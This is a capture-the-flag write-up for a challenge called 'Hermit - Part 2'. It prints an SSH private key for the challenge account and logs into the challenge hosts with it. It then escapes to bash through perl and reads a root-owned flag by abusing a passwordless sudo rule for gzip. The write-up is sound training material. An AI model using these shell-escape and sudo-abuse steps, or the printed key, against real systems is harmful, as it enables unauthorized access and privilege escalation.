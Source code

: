 # Hermit - Part 2

>Who are you? How did you get here? You better zip on out of here or else.
>
>104.197.195.221:8087 34.121.84.161:8087
>
>Created by Cobchise#6969
>
>(The server is likely not broken. If you really think it's broken, create a support ticket.)

>## Hint1 
>Try enumeration

>## Hint2
>The port you are looking for has been forwarded to 8087.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBJ6WTDqSNvZK2tVS8m8PojEl8gFcYdKteOlsTFa1+2UwAAAJClUMQIpVDE
CAAAAAtzc2gtZWQyNTUxOQAAACBJ6WTDqSNvZK2tVS8m8PojEl8gFcYdKteOlsTFa1+2Uw
AAAECtACFT0GlKU1unqP8hNu9C2FOx8hu89x9Mpksn3uSy7EnpZMOpI29kra1VLybw+iMS
XyAVxh0q146WxMVrX7ZTAAAADXNoaXRyaXhAbG9jYWw=
-----END OPENSSH PRIVATE KEY-----
```


```bash
$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEnpZMOpI29kra1VLybw+iMSXyAVxh0q146WxMVrX7ZT hermit@local
```

```bash
$ ssh -i id_ed25519 hermit@104.197.195.221 -p 8087
Linux 162d488eac13 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 28 15:14:43 2021 from 180.150.57.6
-sh: 35: set: Illegal option -o history
$ whoami
hermit
```

## upgrading shell
```
$ which python3
$ which python
$ which perl
/usr/bin/perl

$ perl -e 'exec("/bin/bash")'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LANG = "en_CA.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
hermit@162d488eac13:~/flag$ 

```

## sudo -l

```bash
hermit@162d488eac13:~/flag$ sudo -l
Matching Defaults entries for hermit on 162d488eac13:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hermit may run the following commands on 162d488eac13:
    (ALL : ALL) ALL
    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t

hermit@162d488eac13:~/flag$ sudo /bin/gzip -f /root/rootflag.txt -t
UMASS{a_test_of_integrity}
```
